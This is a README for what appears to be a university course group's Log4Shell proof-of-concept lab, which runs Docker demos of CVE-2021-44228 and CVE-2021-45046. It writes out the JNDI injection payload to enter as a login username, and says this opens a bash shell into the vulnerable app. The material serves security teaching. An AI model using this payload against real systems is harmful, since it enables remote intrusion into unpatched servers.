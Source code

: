# CS4239 Group 6 Log4Shell Proof of Concept (PoC)  

This project is a modified version of this PoC: [Github Link](https://github.com/kozmer/log4j-shell-poc)
CVEs covered:
1. CVE-2021-44228  
2. CVE-2021-45046 (To be adjusted)  

## Requirements

Needs a system with x86_64 (AKA amd64) chipset.
Needs the following software:
1. Docker  
2. docker-compose  

## Instructions to run PoCs  

### CVE-2021-44228

1. `cd` into root directory of this repo  
2. Run "run_44228_demo.sh" with `./run_44228_demo.sh` in terminal. Keep this terminal open.  
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Revisit the terminal from earlier. A bash shell into the vulnerable application will now be open!

### CVE-2021-45046  

1. `cd` into root directory of this repo  
2. Run "run_45046_demo.sh" with `./run_45046_demo.sh` in terminal. Keep this terminal open.  
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Revisit the terminal from earlier. A bash shell into the vulnerable application will now be open!  